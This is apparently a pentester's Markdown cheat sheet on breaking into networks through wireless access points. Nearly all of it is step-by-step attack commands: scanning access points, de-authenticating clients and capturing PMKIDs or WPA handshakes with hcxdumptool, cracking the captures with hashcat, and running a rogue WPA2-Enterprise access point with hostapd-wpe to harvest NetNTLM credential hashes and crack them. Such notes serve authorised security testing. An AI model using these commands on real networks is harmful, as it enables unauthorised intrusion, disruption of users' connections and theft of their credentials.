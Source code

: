 # __Network access via wireless access point__
>Author: Pieter Miske
---
### __Wireless based network attack methods:__
#### _Capture PMKIDs or 3\-way handshakes from Wireless AP’s:_
This technique can be used to capture handshakes between a client and a normal AP\. This requires that you either wait for a client to connect to the AP, or if a client has already connected, de\-authenticate the client from the AP and wait for them to re\-connect\.
>One of the following messages indicates a successful capture: \[FOUND HANDSHAKE AP\-LESS\] or \[FOUND AUTHORIZED HANDSHAKE\]\. 
- 1\. \(optional\) If using the Wifi Pineapple, login via ssh.
- 2\. Scan for nearby active AP’s \([hcxdumptool](https://github.com/ZerBea/hcxdumptool)\): `hcxdumptool -i wlan1 --do_rcascan`
- 3: Store target AP mac\-addresses in filter\.txt file: `echo <target mac address> > filter.txt`
- 4\. Perform the Client\-less PMKID Attack \(this will also automatically de\-authenticate all connected clients\) \([hcxdumptool](https://github.com/ZerBea/hcxdumptool)\):  `hcxdumptool -o test.pcapng -i wlan1 -c <AP channel> --filterlist_ap=filter.txt --filtermode=2 --enable_status=3`
- 5\. Converting and cracking wifi keys:
	- If captured \(normal\) WPA handshake:
		- 1\. Copy \.pcapng files to own machine
		- 2\. Convert \.pcapng to \.pcap file: `tshark -F pcap -r test.pcapng -w test.pcap`
		- 3\. Convert \.pcap to \.hccapx file \([hashcat\-utils](https://github.com/hashcat/hashcat-utils)\): `./cap2hccapx test.pcap test.hccapx`
		- 4\. Crack PSK hash: `hashcat -m 2500 -a 0 -w 3 test.hccapx </dir/wordlist>`
	- If captured EAPOL PMKID \(\[FOUND PMKID CLIENT\-LESS\] or \[FOUND PMKID\]\):
		- 1: Convert PMKID to readable hash format: `hcxpcaptool -z test.16800 test.pcapng`
		- 2\. Move the \.pcapng file to your machine
		- 3: Crack pmkid key: `hashcat -m 16800 -a 0 -w 3 pmkid_capture.16800 </dir/wordlist>`

#### _Capture NetNTLM hashes from WPA2 Enterprise WiFi AP:_
If protocols such as EAP\-MSCHAPv2 and EAP\-TTLS are used it may be possible to set up a malicious access point which accepts EAP authentication, and if the device or user enters their credentials they can be captured in the form of NetNTLM hashes\.
- 1\. Install HostAPDtool: `apt install hostapd-wpe python-jinja2`
- 2\. stop NetworkManager to prevent it interfering: `airmon-ng check kill`
- 3\. Setup the malicious AP via the configuration file: `nano /etc/hostapd-wpe/hostapd-wpe.conf`
- 4\. Start the malicious AP and wait until users connect: `hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf`
- 5\. Recover password from NetNTLM based hash: `hashcat -m 5500 <hash.txt> <wordlist.txt>`